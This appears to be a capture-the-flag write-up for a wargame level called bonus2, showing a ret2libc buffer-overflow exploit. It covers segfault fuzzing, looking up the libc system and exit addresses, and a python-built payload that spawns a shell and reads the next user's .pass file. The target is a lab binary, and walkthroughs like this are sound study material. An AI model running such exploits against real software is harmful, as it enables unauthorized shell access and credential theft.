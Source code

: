 # Level 2

We have a program who takes two arguments and :
```sh
$ ./bonus2 
$ ./bonus2 42
$ ./bonus2 42 42
Hello 42
```

We can make the program SEGFAULT by playing with values
```sh
$ ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 25)')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBB

$./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 26)')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

Like, the exercice 2 we have to find some addresses:

```sh
$ export HACK=/bin/sh
$ /tmp/genv HACK ./bonus2
HACK will be at 0xbffff926
```

system address:   0xb7e6b060
exit address:     0xb7e5ebe0
/bin/sh address:  0xbffff926

```sh
(LANG=fi; ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x26\xf9\xff\xbf")'); cat)
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`�����&���
$ whoami
bonus3
$ cat /home/user/bonus4/.pass
```